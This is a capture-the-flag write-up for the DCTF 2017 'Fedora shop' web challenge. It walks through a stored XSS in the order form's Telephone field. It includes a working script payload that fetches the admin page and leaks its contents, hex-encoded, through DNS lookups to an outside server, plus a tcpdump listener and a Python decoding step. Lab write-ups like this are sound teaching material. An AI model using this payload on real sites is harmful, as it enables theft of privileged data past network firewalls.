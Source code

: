 ## Fedora shop

### Description:
After a series of attacks against their administrators they firewalled their facility. Will this stop you?

https://fedora-shop.dctf-f1nals-2017.def.camp/

### Author: 
Lucian Nitescu, Anatol

### Stats: 
374 point / 7 solvers

### Solution:  

The challenge started with this simple website:

![alt text](./img/1.png "1")

When we send the order (on "Complete Order") we can exploit an stored XSS vulnerability in the "Telephone" input field. Example:

![alt text](./img/2.png "2")

After "Complete Order":

![alt text](./img/3.png "3")

Proof of stored XSS:

![alt text](./img/4.png "4")

On this page we can observe two important things. First we can see that our XSS vulnerability exploit was successful and that your order was visited by an admin and the status has been changed to "Shipped!" from "Pending approval". But where is our flag?

The flag is on "/admin.php" and can be accessed only by the admin. Example:

![alt text](./img/5.png "5")

Also any http request or ways of data exfil using stored XSS that require http request have been firewalled (as stated in the description of the challenge). One way of getting the flag from "admin.php" page is to use DNS requests on port 53. Example:

On our exfil server we will listen for DNS requests using the following command:

```
tcpdump -vn udp port 53 -i ens3
```

As attack vector for only first 25 characters (50 hexa) of the flag we will use:

* Note that the "Telephone" input has to be stored is the DB and should never exceed 255 characters.

```
<script>setTimeout(function(){$.get('/admin.php',function(d){var h='';for(i=0;i<d.length;i++){h+=("00"+d.charCodeAt(i).toString(16)).slice(-2);}$(document.body).append($('<img>').attr('src','//t'+h.substring(0,50)+'.dns.tux.ro'));});},999);</script>
```

The above script will be executed when the Admin will visit the orders page and it will also send the DNS request to our server, which will look like:

![alt text](./img/6.png "6")

Which stands for:

```
lucian@nitescu:~$ python
Python 2.7.12 (default, Nov 19 2016, 06:48:10) 
[GCC 5.4.0 20160609] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> buf = "444354467b3934366436636131366332663337306237343563"
>>> buf.decode("hex")
'DCTF{946d6ca16c2f370b745c'
>>> 
```

Now we can just change the script to get the next 25 characters of the flag until we get this:

DCTF{946d6ca16c2f370b745caf00f45ff2ac3656a3dcfee5d35cd8e853dc6d13470d}